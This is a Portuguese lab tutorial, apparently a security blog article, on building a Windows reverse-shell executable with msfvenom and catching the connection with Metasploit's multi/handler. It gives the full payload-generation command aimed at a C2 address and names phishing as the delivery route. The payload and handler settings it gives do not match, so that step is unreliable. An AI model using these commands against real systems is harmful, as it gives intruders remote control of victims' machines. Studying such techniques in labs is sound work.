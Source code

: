 ```yaml
---
layout: default
title: Reverse Shell com MSFVenom e Metasploit
permalink: /artigos/03.md/
---
```


## Shell Reverso com MSFVenom e Metasploit

Nesse artigo vou falar sobre a técnica de conexão reversa, ou seja, a conexão iniciada a partir da máquina do cliente/vítima para o servidor C2 (Command and Control). O nomes mais comum desse tipo de ataque é backdoor. Essa técnica utiliza como vetor os ataques de phishing e engenharia social para induzir a vítima a clicar em um link e fazer o download do script ou executável que será utilizado para iniciar a conexão reversa.

Geralmente em um ambiente controlado, a arquitetura da rede inclui firewall no perímetro e muitas vezes firewall entres as redes LAN com filtros de segurança como IPS e Antimalware habilitado. O tráfego de entrada é bloqueado com exceção de algumas portas de serviços específicos expostos na internet. O shell reverso nesse cenário consegue fazer o "bypass"  do firewall ao estabelecer uma conexão a partir da rede interna usando portas conhecidas como 80 - HTTP, 443 - HTTPS.

A figura abaixo ilustra como ocorre o bypass do firewall. Quando o script com o payload do shell reverso é executado, a máquina da rede interna inicia a conexão com um servidor externo. 

![topologia de rede](https://carineconstantino.github.io/cybersecurity/artigos/imagens/topologia_rede.jpg)

## Executando o shell reverso

No ambiente de teste, eu utilizo duas máquinas virtualizadas com VirtualBox. A máquina Kali Linux com IP 192.168.0.17 é o servidor C2 e a máquina Windows 7 com IP 192.168.0.11 é o cliente/vítima. 

## Gerando o payload com o MSFVenom 

A architetura da máquina onde o ataque vai acontecer deve ser levada em consideração na criação do payload. A opção ```-a x64``` define o executável compatível com architetura 64bits do Windows 7. Neste sentido, a plataforma é definida com a opção ```--platform windows``` 

```msfvenom -p windows/X64/shell/reverse_tcp -a x64 --platform windows -f exe LHOST=192.168.0.17 LPORT=80 -o /root/malicious.exe ```

![msfvenom_command](https://carineconstantino.github.io/cybersecurity/artigos/imagens/comando_msfvenom.png)

A máquina Kali vai receber a conexão da vítima e para que essa comunicação aconteça, é necessário habilitar um "listening" com o multi/handler ```msf> use multi/handler``` Feito isso, configure o mesmo payload dentro das opções do handler ```set payload windows/meterpreter/reverse_tcp``` O multi/handler é o módulo que permite gerenciar a conexão reversa iniciada pela vítima. 

![listening](https://carineconstantino.github.io/cybersecurity/artigos/imagens/listening.png)

Ao executar o arquivo malicious.exe na máquina Windows 7, o kali recebe a conexão e o prompt do cmd do windows fica disponível.

![execucao_shell01](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell.png)

![execucao shell02](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell02.png)


## O que é MSFVenom ?

De acordo com o site da [Offensive Security](https://www.offensive-security.com), o MSFVenom é um framework e a partir de 2015 substituiu os módulos **msfpayload** e **msfencode**

O MSFVenom fornece uma grande variedade de payloads para Windows, Linux, PHP, java, etc Para visualizar quais payloads estão disponíveis para linux use o seguinte comando:

```msfvenom -l payloads | grep linux | more```

Use o grep para filtro e o more para a saída do comando ser paginada.

Diferente do Metasploit, no MSFVenom não é necessário acessar um prompt/interface, o próprio framework inicia o comando para criação do payload como podemos ver no exemplo acima. 

